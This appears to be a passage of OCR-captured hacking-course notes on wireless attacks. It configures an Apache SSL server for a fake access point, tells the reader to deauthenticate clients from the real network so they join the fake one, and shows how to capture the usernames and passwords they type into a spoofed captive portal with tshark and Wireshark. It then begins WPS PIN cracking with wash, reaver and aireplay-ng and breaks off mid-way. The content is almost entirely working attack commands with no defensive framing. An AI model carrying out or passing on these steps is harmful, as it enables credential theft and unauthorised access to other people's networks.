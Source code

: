	Go to down of the file(after the </VirtualHost>) type:
		<VirtualHost *:443>
			SSLEngine On
			SSLCertificateFile /root/downloads/fake-ap/cert.pem
			SSLCertificateKeyFile /root/downloads/fake-ap/cert.key
		</VirtualHost>
		
(443 port is normally used by ssl)Save it.

▶️>  gedit /etc/apache2/ports

Here we need to listen for 443, so add a liine:

	Listen 443
	
and save.

▶️> service apache2 restart

Now Our Fake AP Is Perfectly Working

Now deauthenticate all or required clients from the real AP and force them to connect to our fake network.

✅️ SNIFFING THE LOGIN INFO FROM OUR CAPTIVE PORTAL
---------------------------------------------------

▶️> tshark -i wlan0 -w data.cap [wireshark uses tshark to sniff data, -w to write the captured data to a file]

Now it sonot shows anyting, it will just show capturing and will write to the file.

Assume user connected to our fake ap and entered their username and password of the real captal portal, stop the capturing of tshark with ctrl+c and analyze the file with wireshark.

remember we added method to post in our html form, so in the filter search http and look for post requests.

✅️ Gaining Access - WPAWPA2 Cracking - Exploiting WPS

-----------------------------------------------------

Reaver is the best tool to crack into wpa or  wpa2 if wps is misconfigured(router must enable push button authentication).

From now we are goonna to learn some methods, but note that it will not work against all routers.

BYPASSING FAILED TO ASSOCIATE ISSUE (or Bypassing 0x3 and 0x4 Errors)

-----------------------------------

Lets run wash to get all the wps enabled wifi.

▶️> wash -i mon0  [it will show wps enabled networks only]

▶️> reaver --bssid 08:00:27:c7:e1:36 --channel 11 -i mon0

Now we may see FAILED TO ASSOCIATE issue.

Let's fix it:

For that we will use aireplay-ng to associate manually with the network and tell reaver not to associate.
